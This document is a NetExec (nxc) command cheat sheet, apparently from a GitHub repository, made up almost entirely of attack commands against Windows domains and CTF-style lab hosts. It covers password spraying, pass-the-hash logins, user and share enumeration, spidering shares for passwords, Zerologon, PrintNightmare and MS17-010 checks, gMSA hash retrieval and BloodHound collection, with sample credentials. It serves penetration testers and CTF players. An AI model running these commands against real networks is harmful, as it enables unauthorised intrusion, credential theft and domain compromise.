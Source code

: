 ## Wiki:
For more commands and all capabilities.
```text
https://www.netexec.wiki/
```
## Supported Protocols:
All can be used for password spraying etc.
```bash
mssql               
smb                
ftp                 
ldap               
nfs                 
rdp                
ssh                
vnc                
winrm             
wmi                
```
## Supported Auth Methods:
```bash
#Null Session (SMB Anonymous)
nxc smb 172.16.139.3 -u '' -p ''

#Default User/Pass:
nxc smb 172.16.139.3 -u john -p 'lol123!'

#NTLM:

nxc smb dc01.ad.trilocor.local -u 'john' -H 3135834fa2e5dcdc4367de1c9d0784a3

nxc smb dc01.ad.trilocor.local -u 'john' -H HASH:HASH

#Kerberos Ticket, requires a valid ticket to be present in klist:
nxc smb dc.rustykey.htb -k --use-kcache
```
---
## Command Cheat Sheet:

### Password Spraying:
```bash
#SMB example with userlist:
nxc smb 172.16.139.3 -u knownusernames.txt -p Welcome1
```
---
### Verifying validity of found credentials with SMB
```bash
#Shows if credentials are valid for SMB auth + Displays the hostname of the target 
nxc smb 172.16.139.3 -u john -p 'lol123!'

#Can also be ran across a subnet for password re-use possibilites.
nxc smb 172.16.139.0/24 -u john -p 'lol123!'
```
---
### SMB - Domain Enumeration:
```bash
#list shares + the user's access rights to said shares (R/W):
nxc smb dc01.mirage.htb -u john -p 'lol123!' --shares

#enumerate domain users:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --users

#enumerate domain groups:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --groups

#get domain password policy:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --pass-pol

```
---
### SMB - Spidering SMB Shares:
```bash
#Standard Spider on a selected share using pattern for keyword to search for:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --spider 'Department Files' --content --pattern "passw"

#Search C Drive for pattern:
nxc smb dc01.mirage.htb -u john -p 'lol123!' --spider C\$ --pattern txt

#Spider Plus Share Enumeration:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus

#Dump all files after spidering:
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M spider_plus -o DOWNLOAD_FLAG=True
```
---
### SMB - Scanning for Common Vulns:
```bash
#Zerologon:
nxc smb dc01.mirage.htb -u '' -p '' -M zerologon

#noPAC:
nxc smb dc01.mirage.htb -u '' -p '' -M nopac

#PrintNightmare:
nxc smb dc01.mirage.htb -u '' -p '' -M printnightmare

#SMBGhost:
nxc smb dc01.mirage.htb -u '' -p '' -M smbghost

#MS17-010: 
nxc smb dc01.mirage.htb -u '' -p '' -M ms17-010

#NTLM Reflection - CVE-2025-33073 (Requires Creds):
nxc smb dc01.mirage.htb -u john -p 'lol123!' -M ntlm_reflection
```
---
### LDAP - Enumeration:
```bash
#Test creds for LDAP bind:
nxc ldap 10.10.10.0/24 -u john -p 'lol123!'

#Get domain SID:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --get-sid

#Get User Descriptions for password hunting:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' -M get-desc-users

#Get All Admin users:
nxc ldap dc01.mirage.htb -u john -p 'lol123!' --admin-count

#Get DC IPs and Domain Trusts:
nxc ldap 10.10.14.23 -u john -p 'lol123!' --dc-list

#Extract subnets:
nxc ldap 10.10.14.23 -u john -p 'lol123!' -M get-network

#Find Misconfigured Delegations:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation
```
---
### LDAP - DACL and Delegations: 

##### Read GMSA if we have the ACL right:
```bash
#Retrieving password hash with ReadGMSAPassword priv:
nxc ldap ghost.htb -u justin.bradley -p 'Qwertyuiop1234$$' --gmsa
```
#### Find Misconfigured Delegations:
```bash
#Finds all misconfigured delegations in the domain:
nxc ldap 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! --find-delegation

#Finds all users and computers with Unconstrained Delegation flag:
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
#### Read DACL rights on one or more targets:
```bash
nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read
```
---
### LDAP - Running BloodHound Collector
```bash
nxc ldap dc01.administrator.htb -d administrator.htb -u Olivia -p ichliebedich --dns-server 10.129.61.1 --bloodhound -c All

#Collect the data from appointed zip location after it runs.
```
---
## MISC:
### NFS Share Enumeration in NXC:
```bash
#list all shares:
nxc nfs 10.129.254.128 --shares 

#List share content:
nxc nfs 10.129.254.128 --share '/MirageReports' --ls '/'
```
---
